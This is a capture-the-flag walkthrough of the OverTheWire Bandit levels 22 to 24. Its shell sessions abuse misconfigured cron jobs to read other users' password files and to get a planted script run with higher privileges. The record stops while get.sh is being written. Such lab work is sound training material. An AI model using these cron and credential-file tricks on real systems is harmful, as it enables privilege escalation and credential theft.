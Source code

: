 ```
sshpass -f bandit22 ssh bandit22@bandit.labs.overthewire.org -p 2220
```

## Bandit Level 22 --> Level 23

```
bandit22@bandit:~$ cat /etc/cron.d/cronjob_bandit23
@reboot bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
* * * * * bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
bandit22@bandit:~$ ls -l /usr/bin/cronjob_bandit23.sh 
-rwxr-x--- 1 bandit23 bandit22 211 Oct 16  2018 /usr/bin/cronjob_bandit23.sh
bandit22@bandit:~$ cat /usr/bin/cronjob_bandit23.sh 
#!/bin/bash

myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

cat /etc/bandit_pass/$myname > /tmp/$mytarget
bandit22@bandit:~$ mytarget=$(echo I am user bandit23 | md5sum | cut -d ' ' -f 1)
bandit22@bandit:~$ echo $mytarget
8ca319486bfbbc3663ea0fbe81326349
bandit22@bandit:~$ cat /tmp/8ca319486bfbbc3663ea0fbe81326349
```

```
sshpass -f bandit23 ssh bandit23@bandit.labs.overthewire.org -p 2220
```

## Bandit Level 23 --> Level 24

```
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh 
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
    echo "Handling $i"
    timeout -s 9 60 ./$i
    rm -f ./$i
    fi
done


bandit23@bandit:~$ cd /var/spool/bandit24/
bandit23@bandit:/var/spool/bandit24$ mkdir /tmp/temp1
bandit23@bandit:/var/spool/bandit24$ chmod 777 /tmp/temp1
bandit23@bandit:/var/spool/bandit24$ date
Fri Apr  3 23:02:49 CEST 2020
bandit23@bandit:/var/spool/bandit24$ date
Fri Apr  3 23:03:01 CEST 2020
bandit23@bandit:/var/spool/bandit24$ nano get.sh
Unable to create directory /home/bandit23/.nano: Permission denied
It is required for saving/loading search history or cursor positions.
```